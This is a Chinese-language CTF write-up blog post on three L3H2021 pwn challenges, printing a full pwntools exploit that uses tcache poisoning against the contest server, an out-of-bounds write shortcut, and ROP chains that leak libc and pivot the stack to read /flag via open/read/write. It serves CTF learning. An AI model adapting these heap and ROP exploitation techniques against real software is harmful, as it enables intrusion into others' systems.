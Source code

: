 ```yaml
---
title: L3H2021 PWN部分
date: 2021-11-29 22:47:41
tags: [CTF,Pwn,Python]
categories: 
 - [Cyber Security,CTF]
cover: https://res.cloudinary.com/sycamore/image/upload/v1682436269/Typera/2023/04/2b4c8ea294f30ddf5d63bfe0cb363e5f.png
---
```


## spn(11.26)

[附件下载](https://cdn.jsdelivr.net/gh/noneSycamore/annex/pwn_spn.zip)
复现这道题的时候，我一开始用的是0RAYS的解法，大致是找spn的解密脚本，计算给出的shell的真实地址，然后用tcache打shell，最后选5进backdoor.
虽说是读懂了0RAYS的脚本，而且也算是进一步学习了一下tcache的机制，
然而我一番搜索，着实找不到好用的spn解密脚本，就只好另寻出路.
0RAY的脚本放上：

```python
#!/usr/bin/python
# -*- coding:utf-8 -*-

from pwn import *
import sys
context.log_level = 'debug'
context.arch='amd64'

local=0
binary_name='SPN_ENC'
libc_name='lib/libc-2.27.so'
if local:
    p=process("./"+binary_name)
    libc=ELF("./"+libc_name)
else:
    p=remote('124.71.194.126',9999)
    e=ELF("./"+binary_name)
    libc=ELF("./"+libc_name)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass
ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()
# 这里真的是学到了，不过也是我之前看大佬的wp太少的缘故，之前我还在傻傻地一个字一个字地敲(+_+)

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(num):
    sla("0.exit\n",str(num))
def add(size,idx):
    cho(1)
    sla("Size:",str(size))
    sla("Index:",str(idx))
def delete(idx):
    cho(3)
    sla("Index:",str(idx))
def show(idx):
    cho(4)
    sla("Index:",str(idx))
def edit(idx,size,data):
    cho(2)
    sla("Index:",str(idx))
    sla("Size",str(size))
    sa("Content",data)
def backdoor():
    cho(5)
def decrypt(x):
    io = process('./spn_dec.py')
    io.sendline(str(x&0xffff))
    a = int(io.recv()[:-1])
    io.close()
    return a
def spn_dec(x):
    a1 = decrypt(x)
    a2 = decrypt(x>>16)
    a3 = decrypt(x>>32)
    aa = a1+a2*0x10000+a3*0x100000000
    print(hex(a3),hex(a2),hex(a1))
    print(aa)
    return aa

ru("gift:")
shell_addr=int(ru('\n'),16)
print(hex(shell_addr))
aa = spn_dec(shell_addr)
print(hex(aa))
add(0x10,0)
add(0x10,1)
add(0x10,2)
delete(2)
delete(1)
edit(0,0x26,b'a'*0x20+p64(aa)[:-2])
add(0x10,3)
add(0x10,4)
edit(4,2,b'aa')
backdoor()
ia()

# 害，身为菜鸡，我连脚本都没大佬写得好看
```
然后，我找到了另一种解法，输入0x1000，数组越界写了shell，可以直接backdoor

![image-20230425232554399](https://res.cloudinary.com/sycamore/image/upload/v1682436358/Typera/2023/04/0a873d7de40231b015e0a70c0c4466c6.png)

```python
add(0,0x1000)
add(1,0x20)
edit(0,0x1000+2,'\n')
backdoor()
```
## checkin(11.27)
[附件下载](https://cdn.jsdelivr.net/gh/noneSycamore/annex/pwn_checkin.zip "附件下载")
### 关于ASan
这道题使用了ASan，是一种影子内存的技术。关于它的具体内容可以参考[这篇文章](https://bestwing.me/ASan-and-ASan-in-CTF%280ctf-babyaegis%29.html)
这里记录一点大致的内容
ASan 是 Google 开源的一个用于进行内存检测的工具，它由两个主要部分构成，插桩和动态运行库( Run-time library )。
插桩主要是针对在llvm编译器级别对访问内存的操作(store，load，alloca等)，将它们进行处理。
动态运行库主要提供一些运行时的复杂的功能(比如poison/unpoison shadow memory)以及将malloc,free等系统调用函数hook住
ASan采用了直接内存映射策略，具体的映射策略如下所示
**64位**
> Shadow = (Mem >> 3) + 0x7fff8000;

**32位**
> Shadow = (Mem >> 3) + 0x20000000;

### 关于orw
**由来：**
有些pwn题为了增加难度，会在程序初始化的时候增加seccomp函数，禁用掉除了sys_open,sys_write,sys_read以外的所有系统调用。也就是说我们无法通过system（‘/bin/sh’）来getshell，只能通过o，r，w这三个系统调用获取flag。
**漏洞利用：**
首先调用open函数打开flag文件。
然后读取flag文件。
最后通过wirte将flag打印出来。
```python
sys_open("flag")//读取flag
sys_read("rax","rsp",0x40)//rax为sysoopen的返回值，也就是flag，然后将flag写到esp下
sys_write(1,"rsp",0x40)//打印flag的值到屏幕输出
```
害，还是知识不到位，这里再放一篇挺详细的[orw介绍](https://www.codeleading.com/article/72315735518/)
### 分析
pwn内可以任意地址写一个字节，故修改 _ZN14__interception21real___isoc99_vfscanfE 的第二个字节，使其指向gets函数(0x73ED28)
![image-20230425232602805](https://res.cloudinary.com/sycamore/image/upload/v1682436366/Typera/2023/04/38fe2a7349d7b29477d22b0f72026408.png)

```python
sla(b'Welcome! A gift for you:',str(0x73edb8+1))
sleep(1)
sd(b'\x91')
sa(b'Leave a note.',b'a'*0x1f)
sa(b"That's all. Have fun!",p64(0x43FBB3))
```
构造rop，调用gets函数，泄露libc_addr地址
```python
pop_rdi = 0x41af0b
pop_rsp = 0x484d50
call_puts = 0x43A286
rop = p64(pop_rdi)+p64(0x72DE30)+p64(call_puts)+b'a'*0x838+p64(0)*6+p64(pop_rdi)+p64(0xA00000)+p64(0x43FBB3)+b'a'*0x30+p64(0)*3+p64(pop_rsp)+p64(0xA00000)
try:
    p.recv()
    sl(rop)
    libc_addr = leak_address()-0x407e0
    print(hex(libc_addr))
    if libc_addr == 0x736572605c61:
        p.close()
        return 0
except Exception:
    return 0
print(hex(libc_addr))
```
最后栈迁移+orw调用获取flag文件
```python
binsh=libc_addr+0x1B3E1A
system=libc_addr+0x4f550
pop_rsi=0x000000000041ab7c
pop_rdx=0x000000000043ced2
open_addr=libc_addr+libc.sym['open']
read_addr=libc_addr+libc.sym['read']
write_addr=libc_addr+libc.sym['write']
rop2 = p64(pop_rdi)+p64(0xA00100)+p64(pop_rsi)+p64(0)+p64(open_addr)
rop2 += p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(0xA00200)+p64(pop_rdx)+p64(0x100)+p64(read_addr)
rop2 += p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(0xA00200)+p64(pop_rdx)+p64(0x100)+p64(write_addr)
rop2 = rop2.ljust(0x100,b'\x00')+b'/flag\x00'
sl(rop2)
```
## slow_spn(11.29)
[附件下载](https://cdn.jsdelivr.net/gh/noneSycamore/annex/pwn_slow-spn.zip "附件下载")
这题感觉挺奇怪的。。。
貌似除了pwntools工具，就没有用到啥和pwn相关的东西，主要的解题思路也没啥漏洞利用的感觉，大概属于密码。
程序的大概流程就是：从flag文件里面导出key和plaintext，然后通过s盒和p盒放入cache里面.
![image-20230425232612526](https://res.cloudinary.com/sycamore/image/upload/v1682436377/Typera/2023/04/d98248de6bbcdd6c0a8ae6fa6d3523de.png)
cache是题目实现的，最多可以往里添加0x20个数（模拟访问s盒中的地址），超过了会剔除最小的一个，若是cache命中了则使用算法计数，未命中则sleep(1)，
由于题目给了一次访问plaintext在s盒中的地址的机会，所以可以通过遍历来爆破，通过sleep(1)判断cache是否命中，然后推出上图中p，v9，v7，v5以及k>>8，k>>4，k的值，然后拼接得到key.
![image-20230425232621850](https://res.cloudinary.com/sycamore/image/upload/v1682436385/Typera/2023/04/f5836a7db5ff249e037d1a839c975876.png)
